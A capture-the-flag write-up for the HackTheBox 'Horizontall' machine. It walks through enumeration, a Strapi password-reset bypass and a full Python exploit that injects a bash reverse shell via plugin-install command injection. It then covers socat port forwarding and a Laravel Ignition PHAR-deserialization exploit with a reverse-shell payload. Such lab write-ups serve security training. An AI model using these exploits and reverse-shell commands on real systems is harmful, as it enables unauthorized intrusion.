 ```yaml
---
title: Hackthebox - Horizontall
date: 2021-08-29 00:00:00 +0530
categories: [hackthebox, linux]
tags: [improper access control, command injection, laravel,laravel 8.4.2 debug mode, ignition 2.5.2]     # TAG names should always be lowercase
image: /assets/img/posts/horizontall/horizontall_banner.png
---
```



![](/assets/img/posts/horizontall/horizontall_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.105 horizontall.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* http Server redirect to `horizontall.htb` 

found another subdomain from burp site-map

![](/assets/img/posts/horizontall/site-map.png)

Making request to `/reviews`

* api is running on [Strapi](https://strapi.io/) CMS

Found some endpoints from fuzzing
```bash
❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://api-prod.horizontall.htb/FUZZ -X POST

# ... [snip] ...

email                   [Status: 403, Size: 60, Words: 1, Lines: 1]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
upload                  [Status: 403, Size: 60, Words: 1, Lines: 1]


❯ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://api-prod.horizontall.htb/FUZZ

# ... [snip] ...

users                   [Status: 403, Size: 60, Words: 1, Lines: 1]
admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
```

`/admin` give 200 response

![](/assets/img/posts/horizontall/strapi-admin.png)

`/admin` made 2 requests from `/users-permissions/init` and `/admin/init` endpoints in background.

![](/assets/img/posts/horizontall/strapi-init.gif)

* This is a **development**.
* **strapiVersion:** `3.0.0-beta.17.4`

Found some vulnerabilities online.

* From GitHub Advisory Database [Privilege Escalation in strapi](https://github.com/advisories/GHSA-6xc2-mj39-q599): Versions of strapi prior to 3.0.0-beta.17.5 are vulnerable to Privilege Escalation. The password reset routes allows an unauthenticated attacker to reset an admin's password without providing a valid password reset token.

* From snyk database [Arbitrary Code Injection](https://snyk.io/vuln/SNYK-JS-STRAPI-536641): Affected versions of this package are vulnerable to Arbitrary Code Injection. The package fails to sanitize plugin names in the `/admin/plugins/install/` route. This may allow an **authenticated attacker** with admin privileges to run arbitrary commands in the server.
  * Exploit PoC Blog: https://bittherapy.net/post/strapi-framework-remote-code-execution/

# Foothold

## Improper Access Control

Affected versions of this package are vulnerable to Improper Access Control. It mishandles password resets within `packages/strapi-admin/controllers/Auth.js` and `packages/strapi-plugin-users-permissions/controllers/Auth.js`.

From fixed commit we can see that The issue was a lack of validation of the code parameter sent by the user: https://github.com/strapi/strapi/pull/4443/commits/e0424d4b880831dd643afff9c6ba475acdbae0be

Found reset password request parameter from [`packages/strapi-admin/controllers/Auth.js`](https://github.com/strapi/strapi/blob/7a61db72851d3ddf3fef172b47100737eb075ceb/packages/strapi-admin/controllers/Auth.js#L206)

![](/assets/img/posts/horizontall/reset-params.png)

Sending crafted data in the POST request to `/admin/auth/reset-password`

![](/assets/img/posts/horizontall/reset-token.png)

And get admin user auth token.

Now we can login as admin with new reset password

![](/assets/img/posts/horizontall/admin-logedin.png)

## Command Injection

Strapi CMS versions `<3.0.0-beta.17.8` Affected to Arbitrary Code Injection. The package fails to sanitize plugin names in the `/admin/plugins/install/` route. This may allow an authenticated attacker with admin privileges to run arbitrary commands in the server.

Based on https://bittherapy.net/post/strapi-framework-remote-code-execution/ blog PoC inject payload in `/admin/plugins/install` POST request with data `{"plugin":"documentation && $(<payload>)", "port":"80"}` executes as Arbitrary Code.

![](/assets/img/posts/horizontall/code-exec.gif)


RCE python script
```py
import requests as r
import json

s = r.Session()
# Enable burp proxy
# s.proxies = {'http': 'localhost:8080'}
url = 'http://api-prod.horizontall.htb'

# Send Reset password request to retrieve admin jwt token
reset_data = {"code": {}, "password": "p00rduck", "passwordConfirmation": "p00rduck"}
rspn = s.post(f"{url}/admin/auth/reset-password", json=reset_data)
json_pars = json.loads(rspn.content.decode())
print("[+] Reset Response: \n" + rspn.content.decode())

# Send reverse shell in plugins install request
s.headers = {'Authorization': f'Bearer {json_pars["jwt"]}'}
payload = {"plugin": "documentation && $(/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1')", "port": "80"}
try:
    rspn = s.post(f"{url}/admin/plugins/install", json=payload, timeout=10)
    print(rspn.text)
except r.exceptions.Timeout:
    print('[!] Exception: timeout')
    
s.close()
```

# Privesc

Found database creds from linpeas output

![](/assets/img/posts/horizontall/db-creds.png)

There are some services running on local ports
```bash
(remote) strapi@horizontall:/tmp$ ss -lntp | grep 127
LISTEN   4         128               127.0.0.1:1337             0.0.0.0:*        users:(("node",pid=1805,fd=31))
LISTEN   0         128               127.0.0.1:8000             0.0.0.0:*
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:* 
```

* Port 8000 is running **`Laravel v8 (PHP v7.4.18)`** found with `curl`.
* Forward port 8000 with socat `./socat tcp-l:8001,fork,reuseaddr tcp:127.0.0.1:8000 &`.

Now we can access to local port 8000 from remote port 8001.

* `nuclei` found laravel debug mode is enabled.
* Also found CVE-2021-3129 in laravel. 

  ![](/assets/img/posts/horizontall/nuclei-scan.png)

## Laravel <8.4.2 debug mode with Ignition <2.5.2 RCE

Ignition before 2.5.2, as used in Laravel and other products, allows unauthenticated remote attackers to execute arbitrary code because of insecure usage of `file_get_contents()` and `file_put_contents()`. This is exploitable on sites using debug mode with Laravel before 8.4.2. 

* PoC Detailed blog: https://www.ambionics.io/blog/laravel-debug-rce
* Exploit script: https://github.com/ambionics/laravel-exploits

How this happened is, `viewFile` parameter from `/_ignition/execute-solution` request is vulnerable for PHAR deserialization vulnerability.

**Generate PHAR payload using PHPGGC**
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system id
```

**Execute Script**
```bash
./laravel-ignition-rce.py http://10.10.11.105:8001/ /tmp/exploit.phar
```

![](/assets/img/posts/horizontall/root-rce.png)


Get reverse shell with
```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system '/bin/bash -c "bash -i >& /dev/tcp/10.10.15.71/4141 0>&1"'
```

![](/assets/img/posts/horizontall/rooted.png)